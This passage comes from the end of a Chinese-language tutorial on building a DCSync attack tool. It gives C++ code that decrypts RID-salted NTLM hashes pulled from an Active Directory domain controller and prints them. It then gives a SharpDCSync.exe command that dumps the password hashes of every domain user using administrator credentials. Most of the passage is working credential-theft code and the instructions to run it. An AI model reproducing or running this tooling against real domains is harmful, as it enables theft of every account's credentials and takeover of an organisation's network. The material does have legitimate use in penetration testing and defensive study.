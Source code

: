 DecryptPwd 函数是再次对包含用户凭据的属性进行解密。为了防止机密数据的脱机提取，在 Active Directory 数据库 NTDS.DIT 中，微软使用安全主体的 RID 值作为加密函数的盐，对机密属性中的哈希值进行了部分加密。因此需要调用 DecryptPwd 函数对加密的用户凭据进行解密，该函数定义如下。

```c++
void DecryptPwd(PBYTE encodedData, DWORD encodedDataSize, DWORD rid, DWORD wpFlags)
{
	BYTE decodedData[LM_NTLM_HASH_LENGTH];
	PCWCHAR WPRINTF_TYPES[] =
	{
		L"%02x",		// WPRINTF_HEX_SHORT
		L"%02x ",		// WPRINTF_HEX_SPACE
		L"0x%02x, ",	// WPRINTF_HEX_C
		L"\\x%02x",		// WPRINTF_HEX_PYTHON
	};

	if (NT_SUCCESS(RtlDecryptDES2blocks1DWORD(encodedData, &rid, decodedData)))
	{
		DWORD sep = wpFlags >> 16;
		PCWCHAR pType = WPRINTF_TYPES[wpFlags & 0x0000000f];
		for (DWORD i = 0; i < LM_NTLM_HASH_LENGTH; i++)
		{
			wprintf(pType, ((LPCBYTE)decodedData)[i]);
		}
	}
	else wprintf(L"[-] RtlDecryptDES2blocks1DWORD Error.");
}
```

解密后将成功输出用户密码的哈希值。至此，整个 DCSync 攻击过程完成。

# 运行效果演示

执行以下命令，转储域内所有用户的哈希凭据，如下图所示。

```powershell
SharpDCSync.exe -d pentest.com -u Administrator -p Admin@123
```
